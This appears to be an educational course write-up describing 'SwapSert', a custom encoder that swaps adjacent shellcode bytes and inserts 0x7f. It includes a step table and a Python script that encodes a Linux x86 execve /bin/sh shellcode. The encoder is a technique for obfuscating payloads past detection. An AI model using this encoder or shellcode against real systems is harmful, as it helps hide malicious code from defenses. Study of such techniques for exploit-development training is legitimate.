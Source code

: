## The custom encoder
**SwapSert Encoder**
The idea of this encoder is that it will swap two adjacent bytes and then insert a byte.  The inserted byte in this example will be 0x7f.

### Encoding phase

| Step | Sequence     					| What is happening?                  |
|:---- |:------------------------------ | :---------------------------------- |
| 1    | \x41 \x42 \x43 \x44			| starting bytes                      |
| 2    | \x42 \x41 \x7f \x43 \x44		| swap 1st/2nd bytes and insert byte  |
| 3    | \x42 \x41 \x7f \x44 \x43 \x7f	| swap 3rd/4th bytes and insert byte  |

#### Example of this being done on the first 8 bytes of our shellcode
<img src="{{ site.url }}/images/slae32/04-01.png"/>


**Python script to encode a byte array**
```python
#!/usr/bin/python

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" \
            b"\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89" \
            b"\xe1\xb0\x0b\xcd\x80"
encoded = ""
encoded2 = ""

print('Encoded shellcode ...')

pos = 0
insert_byte = b"\x7f"
while (pos+1) < len(shellcode):
    encoded += "\\x%02x\\x%02x\\x%02x" 
		% (shellcode[pos+1], shellcode[pos], insert_byte[0])
    encoded2 += "0x%02x,0x%02x,0x%02x," 
		% (shellcode[pos+1], shellcode[pos], insert_byte[0])
    pos += 2

if not pos == len(shellcode):
    encoded += "\\x%02x\\x%02x\\x%02x" 
		% (insert_byte[0], shellcode[pos], insert_byte[0])
    encoded2 += "0x%02x,0x%02x,0x%02x" 
		% (insert_byte[0], shellcode[pos], insert_byte[0])

print("Original: \"" + "".join(map(lambda x: '\\x%02x' % x, shellcode)) + "\"")
print("")
print("Format1: \"" + encoded + "\"")
print("Format2: " + encoded2)

```
